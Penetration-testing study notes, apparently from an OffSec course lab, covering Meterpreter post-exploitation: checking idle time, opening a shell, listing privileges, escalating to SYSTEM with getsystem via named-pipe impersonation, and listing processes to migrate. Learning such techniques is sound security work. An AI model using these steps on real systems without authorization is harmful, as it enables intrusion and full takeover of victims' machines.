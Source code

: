 #### Post Exploitation Commands 

##### idletime - time user has been idle
```
meterpreter > idletime
User has been idle for: 9 mins 53 secs
```

Metasploit has `getsystem` command that will leverage _SeImpersonatePrivilege_[1](https://portal.offsec.com/courses/pen-200-44065/learning/the-metasploit-framework-45720/performing-post-exploitation-with-metasploit-45768/core-meterpreter-post-exploitation-features-45727#fn-local_id_21-1) and _SeDebugPrivilege_ for privesc. 

Manually checking our user's privvies

Interactive shell
```
meterpreter > shell
```
Check privvies
```hlt:1,9
C:\Users\luiza> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...
```

User has _SeImpersonatePrivilege_

##### getsystem - priv esc
```hlt:1
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

##### migrate - change process payload is executing from
_Note: Can only migrate into processes at same or lower integrity and privilege level_
View running processes on target 
```
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----
 2552   8500  met.exe                      x64   0        ITWK01\luiza                  C:\Users\luiza\met.exe 
... 
 8052   4892  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
```
